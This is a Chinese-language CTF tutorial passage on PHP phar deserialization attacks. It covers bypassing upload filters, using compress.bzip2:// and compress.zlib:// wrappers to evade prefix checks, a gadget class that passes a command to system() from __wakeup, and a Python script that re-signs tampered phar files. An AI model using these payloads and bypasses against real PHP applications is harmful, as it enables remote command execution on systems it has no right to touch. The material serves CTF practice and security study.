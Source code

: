 ```c
PHPAPI const char php_sig_riff[4] = {'R', 'I', 'F', 'F'};
PHPAPI const char php_sig_webp[4] = {'W', 'E', 'B', 'P'};
```

### 上传绕过：文件后缀
php 对于 phar 文件的识别依靠的是文件头的检查，因此后缀可以随便写。

### phar:// 协议绕过
某些题目中限制了输入字符不能以 phar 开头，此时可以使用 compress.bzip2:// 和c ompress.zlib:// 等进行绕过：
```
compress.bzip2://phar:///test.phar/test.txt
compress.zlib://phar:///home/sx/test.phar/test.txt
php://filter/read=convert.base64-encode/resource=phar://./test.phar
```
load.php
```php
class Sink{
    function __wakeup(){
        system($this->cmd);
    }
}
file_get_contents("compress.bzip2://phar://./test.phar.bz2");
file_get_contents("compress.bzip2://phar://./test.zip");
file_get_contents("compress.bzip2://phar://./test.phar");
file_get_contents("compress.zlib://phar://./test.phar");
```

### phar 签名修改
在生成最基本的 phar 文件时，我们构造 phar 对象时传入的是一个完整的对象。
```php
    $o = new Sink();
    $o->cmd = "id";
    $phar->setMetadata($o); 
```
但某些情况下，我们可能需要修改序列化的内容，比如修改属性数量以绕过 __wakeup、破坏序列化结构触发 fast destruct 等。由于 phar 文件末尾带有签名，所以修改了文件内容之后需要对签名进行修改。
```py
from hashlib import sha1
with open('phar.phar', 'rb') as file:
    f = file.read()                     # 修改内容后的phar文件,以二进制文件形式打开
 
s = f[:-28]                             # 获取要签名的数据（对于sha1签名的phar文件，文件末尾28字节为签名的格式）
h = f[-8:]                              # 获取签名类型以及GBMB标识，各4个字节
newf = s + sha1(s).digest() + h         # 数据 + 签名 + (类型 + GBMB)
 
with open('newPhar.phar', 'wb') as file:
    file.write(newf)                    # 写入新文件
```

例题：NSSCTF Round#4 Team-1zweb(revenge)

当然，如果使用 tar 文件格式的话，序列化的内容是直接写在 .phar/.metadata 文件中的，因此在生成文件前修改序列化内容即可。
